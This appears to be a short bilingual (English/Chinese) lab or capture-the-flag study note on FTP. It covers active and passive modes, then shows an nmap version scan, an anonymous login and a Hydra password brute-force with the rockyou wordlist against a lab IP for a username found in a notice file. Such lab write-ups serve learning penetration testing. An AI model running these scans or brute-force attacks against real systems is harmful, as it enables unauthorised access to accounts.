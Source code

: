 File transfer protocol

FTP session:
* command
* data channel

Active:
* Client opens port and listen, server connect to it
Passive:
* Server opens port

user port 21

check ftp version
```bash
nmap -p 21 -sV 21 10.10.8.243 
```

login with anonymous
```bash
ftp 10.10.8.243
```

account : anonymous
password : 

從PUBLIC_NOTICE.txt得到可能的username：mike
利用 `Hydra`暴力破解

Hydra支援超過50個常見 protocol像telnet ssh ftp

```bash
hydra -t 4 -l mike -P /usr/share/wordlists/rockyou.txt -vV 10.10.8.243 ftp
```

* -`t 4` : 4 parallel connection
* `-l <user>`
* `-P <password-dict>`
* `-vV` very verbose